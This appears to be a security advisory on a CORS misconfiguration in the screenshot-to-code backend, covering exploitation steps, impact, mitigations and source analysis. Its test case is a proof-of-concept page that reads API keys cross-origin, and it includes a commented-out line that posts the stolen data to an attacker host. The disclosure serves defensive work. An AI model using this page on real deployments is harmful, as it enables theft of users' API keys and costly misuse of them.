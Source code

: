 # VULNERABILITIES

## CORS Misconfiguration Leading to CSRF and Information Leakage

### Vulnerability name
CORS Misconfiguration Leading to CSRF and Information Leakage

### Description
The backend has a CORS configuration that allows any origin (`allow_origins=["*"]`) while simultaneously allowing credentials (`allow_credentials=True`). This combination explicitly violates CORS security specifications. An attacker can create a malicious website that makes authenticated requests to the application's API endpoints when a victim visits the attacker's site. Since the CORS configuration permits cross-origin requests with credentials, the browser will include the user's authentication cookies or other credentials in these requests.

Step by step exploitation:
1. An attacker creates a malicious webpage that contains JavaScript code making requests to the screenshot-to-code backend API
2. The victim visits this malicious webpage while already being authenticated to the screenshot-to-code application in another tab
3. The malicious JavaScript makes requests to the backend API endpoints with the victim's credentials automatically included
4. The backend accepts these requests due to the misconfigured CORS policy
5. The attacker can access sensitive information or perform actions on behalf of the user

### Impact
This vulnerability enables cross-site request forgery (CSRF) attacks and information leakage. An attacker could:
- Access the victim's API settings, potentially stealing API keys for OpenAI, Anthropic, and other services
- Use the victim's API keys to make requests to third-party services, incurring usage costs for the victim
- Access or modify any data the victim has access to within the application
- Perform actions on behalf of the victim

Since the application handles expensive API keys (OpenAI, Anthropic, etc.), this vulnerability could lead to significant financial impact for affected users if their API keys are stolen and misused.

### Vulnerability rank
High

### Currently implemented mitigations
None visible in the provided code.

### Missing mitigations
1. Modify the CORS configuration to specify explicit allowed origins instead of using the wildcard `*` when `allow_credentials` is set to `True`
2. Implement CSRF tokens for sensitive operations
3. Implement additional request validation to ensure requests come from legitimate sources
4. Consider implementing a more robust authentication mechanism that isn't vulnerable to CSRF

### Preconditions
- A user must be authenticated with the application and have credentials (like cookies) that are automatically included in cross-origin requests
- The attacker must be able to trick the user into visiting their malicious website while the user is authenticated with the screenshot-to-code application

### Source code analysis
In `main.py`, the application configures CORS settings as follows:
```python
app.add_middleware(
    CORSMiddleware,
    allow_origins=["*"],
    allow_credentials=True,
    allow_methods=["*"],
    allow_headers=["*"],
)
```

This configuration violates the CORS security specification which states: "When responding to a credentialed request, the server must specify an origin in the value of the Access-Control-Allow-Origin header, instead of specifying the '*' wildcard."

The combination of `allow_origins=["*"]` and `allow_credentials=True` is particularly dangerous as it allows any website to make authenticated requests to the API, bypassing the same-origin policy that normally protects against CSRF attacks.

Additionally, the wide-open configuration of `allow_methods=["*"]` and `allow_headers=["*"]` further increases the attack surface by placing no restrictions on the types of requests that can be made cross-origin.

### Security test case
1. Set up the screenshot-to-code application locally
2. Configure API keys in the application settings
3. Create a malicious HTML file with the following content:
```html
<!DOCTYPE html>
<html>
<body>
  <h1>Security Test</h1>
  <div id="result">Testing...</div>

  <script>
    // Attempt to access settings or API keys endpoint
    fetch('http://localhost:7001/api/settings', {
      method: 'GET',
      credentials: 'include' // Include cookies or other credentials
    })
    .then(response => response.json())
    .then(data => {
      // Display the accessed data
      document.getElementById('result').innerText = JSON.stringify(data);
      console.log('Accessed data:', data);

      // In a real attack, this would be sent to an attacker's server
      // fetch('https://attacker.com/steal', {
      //   method: 'POST',
      //   body: JSON.stringify(data)
      // });
    })
    .catch(error => {
      document.getElementById('result').innerText = 'Error: ' + error;
      console.error('Error:', error);
    });
  </script>
</body>
</html>
```
4. Open the screenshot-to-code application in a browser and authenticate/configure settings
5. In the same browser, open the malicious HTML file from a different origin (e.g., from a local file or different domain)
6. Verify that the script can successfully access the API and retrieve sensitive information like API keys
